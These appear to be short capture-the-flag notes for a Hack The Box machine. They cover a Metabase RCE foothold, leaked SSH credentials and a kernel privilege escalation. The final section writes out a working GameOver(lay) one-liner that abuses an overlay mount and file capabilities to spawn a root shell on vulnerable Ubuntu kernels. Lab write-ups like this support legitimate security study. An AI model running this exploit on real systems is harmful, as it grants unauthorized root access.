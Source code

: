 port : 80

login redirect -> http://data.analytical.htb

run burpsuite -> /api/session/propreties

exploit metabase 0.46.6 Cve -> RCE 

/proc/self/environ 

ssh to metalytics:An4lytics_ds20223#@analytical.htb

-----
privesc :

no sudoer & linepeas gave nothing , so just go for kernel exploit

uname -a -> 6.2.0-25-generic

6.2.0-25-generic : CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)

exploit.sh :

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
